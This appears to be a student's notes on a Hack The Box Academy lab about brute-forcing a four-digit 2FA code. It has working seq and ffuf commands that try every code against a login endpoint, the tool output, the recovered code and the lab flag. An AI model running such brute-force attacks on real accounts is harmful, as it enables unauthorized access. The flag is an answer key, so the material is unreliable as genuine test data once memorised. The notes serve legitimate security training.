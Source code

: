 ```yaml
---
sticker: emoji//1faaa
---
```

Two-factor authentication (2FA) provides an additional layer of security to protect user accounts from unauthorized access. Typically, this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device). However, 2FA can also be achieved by combining any other two of the major three authentication categories we discussed previously. Therefore, 2FA makes it significantly more difficult for attackers to access an account even if they manage to obtain the user's credentials. By requiring users to provide a second form of authentication, such as a one-time code generated by an authenticator app or sent via SMS, 2FA mitigates the risk of unauthorized access. This extra layer of security significantly enhances the overall security posture of an account, reducing the likelihood of successful account breaches.

---

## Attacking Two-Factor Authentication (2FA)

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits, making them potentially guessable if the length is insufficient and the web application does not implement measures against successive submission of incorrect TOTPs. For our lab, we will assume that we obtained valid credentials in a prior phishing attack: `admin:admin`. However, the web application is secured with 2FA, as we can see after logging in with the obtained credentials:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_1.png)

The message in the web application shows that the TOTP is a 4-digit code. Since there are only `10,000` possible variations, we can easily try all possible codes. To achieve this, let us first take a look at the corresponding request to prepare our parameters for `ffuf`:

![image](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_2.png)

As we can see, the TOTP is passed in the `otp` POST parameter. Furthermore, we need to specify our session token in the `PHPSESSID` cookie to associate the TOTP with our authenticated session. Just like in the previous section, we can generate a wordlist containing all 4-digit numbers from `0000` to `9999` like so:


```shell-session
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

Afterward, we can use the following command to brute-force the correct TOTP by filtering out responses containing the `Invalid 2FA Code` error message:

```shell-session
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
    * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
    * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
    * FUZZ: 9999
```

As we can see, we get many hits. That is because our session successfully passed the 2FA check after we had supplied the correct TOTP. Since `6513` was the first hit, we can assume this was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to `/admin.php`. To access the protected page, we can simply access the endpoint `/admin.php` in the web browser and see that we successfully passed 2FA.

# Question
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214162315.png)

Ok, let's authenticate:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214162403.png)

Once we try to authenticate, we go to `/2fa.php` and subsequently, we are able to see this:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214162451.png)

We need a 2FA code, but we do not have one, what can we do now?

This is were brute-forcing the 2fa code, comes in handy, let's do it:

First, let's generate our list of codes:

```
seq -w 0 9999 > tokens.txt
```

Next, let's check the response of what an invalid code looks like, for example, if we enter 1111:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214162733.png)

We get `Invalid 2FA Code`, knowing all this, we can build our ffuf command:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200 
```

After a while, we get this:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.54.116:39864/2fa.php
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=vcvsoagh3ordpepfb49nanpv57
 :: Data             : otp=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid 2FA Code
________________________________________________

0085                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 792ms]
0097                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 776ms]
0041                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 790ms]
0022                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
0043                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 807ms]
0038                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 806ms]
```

The first code is our 2fa code:

```
0085
```

We can now authenticate:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214163819.png)

Flag is:

```
HTB{9837b33a1ef678c380addf7ef8a517de}
```